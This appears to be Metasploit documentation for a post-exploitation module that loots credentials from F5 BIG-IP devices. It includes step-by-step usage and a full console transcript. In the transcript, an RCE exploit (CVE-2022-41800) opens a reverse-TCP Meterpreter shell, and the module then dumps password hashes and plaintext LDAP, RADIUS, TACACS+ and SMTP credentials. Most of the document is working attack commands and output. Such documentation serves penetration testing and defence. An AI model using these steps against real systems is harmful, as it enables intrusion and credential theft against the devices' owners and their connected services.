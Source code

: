 ## Vulnerable Application

The application is F5 Big-IP, and I don't think the versions matters but I
tested on version 17.0.0.1. It can be downloaded as a VMWare image for free
(you have to create an account) from https://downloads.f5.com. You can register
for a free 30-day trial if you like, but it's not required to test this.

Boot the VM and set an admin password by logging in with the default credentials
(admin / admin). You'll need that password.

## Verification Steps

1. Install the application
2. Start `msfconsole`
3. Do: Get any session somehow (`exploit/linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800` works well on 17.0.0.1 and earlier, or just use `msfvenom` w/ a Linux payload)
4. Do: `use post/linux/gather/f5_loot_mcp`
5. Do `set SESSION <sessionid>`
6. Do: `run`
7. You should get the info

## Options

### GATHER_HASHES

If `true`, read a list of local users and passwords (`userdb_entry` values) from mcp.

Default: true

### GATHER_SERVICE_PASSWORDS

If `true`, read upstream service passwords (active directory, LDAP, etc) from different parts of mcp.

Default: true

### GATHER_DB_VARIABLES

If `true`, read configuration information from mcp (note that this is slow).

Default: false (due to the speed)

## Scenarios

### F5 Big-IP 17.0.0.1 with a root session

First, get a non-root session however you can. I used the rpmspec vuln:

```
msf6 > use exploit/linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set HttpPassword mybigtestpassword
HttpPassword => iagotestbigip
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set RHOST 10.0.0.162
RHOST => 10.0.0.162
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set LHOST 10.0.0.179
LHOST => 10.0.0.179
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > exploit
[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Sending stage (40168 bytes) to 10.0.0.162
[+] Deleted /var/config/rest/node/tmp/708677fa-5b30-43e6-9ce3-d84046e9f6e9.spec
[+] Deleted /var/config/rest/node/tmp/RPMS/noarch/yE15kZeAwp-1.6.1-7.4.4.noarch.rpm
[*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.162:36124) at 2022-11-14 16:12:04 -0800

meterpreter > bg
```

Then just use the module, set the SESSION, and run it:

```
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > use post/linux/gather/f5_loot_mcp
msf6 post(linux/gather/f5_loot_mcp) > set SESSION 1
SESSION => 1
msf6 post(linux/gather/f5_loot_mcp) > set VERBOSE true
VERBOSE => true
msf6 post(linux/gather/f5_loot_mcp) > show options

Module options (post/linux/gather/f5_loot_mcp):

   Name                       Current Setting  Required  Description
   ----                       ---------------  --------  -----------
   GATHER_DB_VARIABLES        false            yes       Gather database variables (warning: slow)
   GATHER_HASHES              true             yes       Gather password hashes from mcp
   GATHER_UPSTREAM_PASSWORDS  true             yes       Gather upstream passwords (ie, LDAP, AD, RADIUS, etc) from mcp
   SESSION                    1                yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(linux/gather/f5_loot_mcp) > run

[*] Gathering users and password hashes from MCP
[+] admin:$6$Rvvp3001$4fGV5Pb2gf9rbiV78KCbdbGhfdwsFL0Kt1BR3IIytgb.2aXCpJG0xC2.JDzRvpAjTbIrvBt7YHi2j0mh.ww9i1
[+] f5hubblelcdadmin:yJXc4uXccfpSrdxcvZIjYT7clhNMUPJG
[+] root:$6$leOcJhIk$pY9xDy1lvacvJzIYM0RCgJ3laTppP2jFjsNek1AbFddYQWEuFMek51K5cyg5BU3pYMhTGQoWgDr0gocIIyMoc1
[*] Gathering upstream passwords from MCP
[*] Trying to fetch LDAP / Active Directory configuration
[+] dc.msflab.local:636   - ldaps: 'smcintyre:Password1!'
[*] Trying to fetch Radius configuration
[+] 192.168.159.12:1812   - radius: ':radiussecret'
[+] 192.168.159.13:1812   - radius: ':radiusbackup'
[*] Trying to fetch TACACS+ configuration
[+] 192.168.159.200:49    - tacacs+: ':tacaspassword'
[*] Trying to fetch SMTP configuration
[+] 192.168.159.128:25    - smtp: 'alice:secretpassword'
[*] Post module execution completed
```

The module logs information to the Metasploit database (when connected):

```
msf6 post(linux/gather/f5_loot_mcp) > creds
Credentials
===========

host             origin           service            public            private                                                                                              realm  private_type        JtR Format
----             ------           -------            ------            -------                                                                                              -----  ------------        ----------
                 192.168.159.119                     smcintyre         Password1!                                                                                                  Password            
                 192.168.159.119                     admin             $6$Rvvp3001$4fGV5Pb2gf9rbiV78KCbdbGhfdwsFL0Kt1BR3IIytgb.2aXCpJG0xC2.JDzRvpAjTbIrvBt7YHi (TRUNCATED)         Nonreplayable hash  sha512,crypt
                 192.168.159.119                     f5hubblelcdadmin  yJXc4uXccfpSrdxcvZIjYT7clhNMUPJG                                                                            Nonreplayable hash  
                 192.168.159.119                     root              $6$leOcJhIk$pY9xDy1lvacvJzIYM0RCgJ3laTppP2jFjsNek1AbFddYQWEuFMek51K5cyg5BU3pYMhTGQoWgDr (TRUNCATED)         Nonreplayable hash  sha512,crypt
192.168.159.12   192.168.159.119  1812/tcp (radius)                    radiussecret                                                                                                Password            
192.168.159.13   192.168.159.119  1812/tcp (radius)                    radiusbackup                                                                                                Password            
192.168.159.128  192.168.159.119  25/tcp (smtp)      alice             secretpassword                                                                                              Password            
192.168.159.200  192.168.159.119  49/tcp (tacacs+)                     tacaspassword                                                                                               Password            

msf6 post(linux/gather/f5_loot_mcp) > services
Services
========

host             port  proto  name     state  info
----             ----  -----  ----     -----  ----
192.168.159.12   1812  tcp    radius   open
192.168.159.13   1812  tcp    radius   open
192.168.159.128  25    tcp    smtp     open
192.168.159.200  49    tcp    tacacs+  open

msf6 post(linux/gather/f5_loot_mcp) >
```
